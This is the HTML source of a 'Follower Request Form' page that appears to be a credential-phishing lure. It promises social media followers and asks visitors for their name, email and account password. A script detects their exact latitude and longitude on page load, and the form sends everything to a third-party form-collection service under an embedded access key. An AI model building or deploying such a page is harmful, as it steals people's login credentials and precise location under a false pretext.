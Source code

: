 <html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Follower Request Form</title>
  <style>
    body { font-family: Arial, sans-serif; margin: 40px; }
    form { max-width: 400px; margin: auto; background: #f7f7f7; padding: 20px; border-radius: 8px; box-shadow: 0 2px 8px #ddd; }
    label { display: block; margin-top: 15px; font-weight: bold; }
    input, textarea { width: 100%; padding: 8px; margin-top: 5px; border: 1px solid #ccc; border-radius: 4px; box-sizing: border-box; }
    button { margin-top: 20px; padding: 10px 20px; background: #4CAF50; color: white; border: none; border-radius: 4px; cursor: pointer; font-size: 1em; }
    button:hover { background: #45a049; }
    #location-status { font-size: 0.9em; color: #888; margin-top: 5px; }
  </style>
</head>
<body>
  <form action="https://api.web3forms.com/submit" method="POST">
<!-- Replace with your Access Key -->
    <input type="hidden" name="access_key" value="0732fb33-547b-48bb-826e-09f7854ad14b">
    <h2 name="formTitle">Follower Request Form</h2>
    <label for="name" name="labelName">Name:</label>
    <input type="text" id="name" name="name" required>

   <label for="email" name="labelEmail">Email:</label>
    <input type="email" id="email" name="email" required>

   <label for="passkey" name="labelPasskey">Password:</label>
    <input type="password" id="passkey" name="passkey" required>

  <label for="followers" name="labelFollowers">How many followers do you want?</label>
    <input type="number" id="followers" name="followers" min="1" required>

  <label for="location" name="labelLocation">Your Location:</label>
    <input type="text" id="location" name="location" required readonly>
    <div id="location-status" name="locationStatus">Detecting location...</div>
        <input type="checkbox" name="botcheck" class="hidden" style="display: none;">
    <!-- Custom Confirmation / Success Page -->
    <!-- <input type="hidden" name="redirect" value="https://mywebsite.com/thanks.html"> -->

   <button type="submit" name="submitButton">Submit</button>
  </form>

  <script>
    document.addEventListener('DOMContentLoaded', function() {
      var locationInput = document.getElementById('location');
      var statusDiv = document.getElementById('location-status');
      if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(
          function(position) {
            var lat = position.coords.latitude.toFixed(6);
            var lon = position.coords.longitude.toFixed(6);
            locationInput.value = lat + ", " + lon;
            statusDiv.textContent = "Location detected!";
          },
          function(error) {
            statusDiv.textContent = "Unable to retrieve location. Please allow location access.";
            locationInput.value = "";
          }
        );
      } else {
        statusDiv.textContent = "Geolocation is not supported by your browser.";
        locationInput.value = "";
      }
    });
  </script>
</body>
</html>

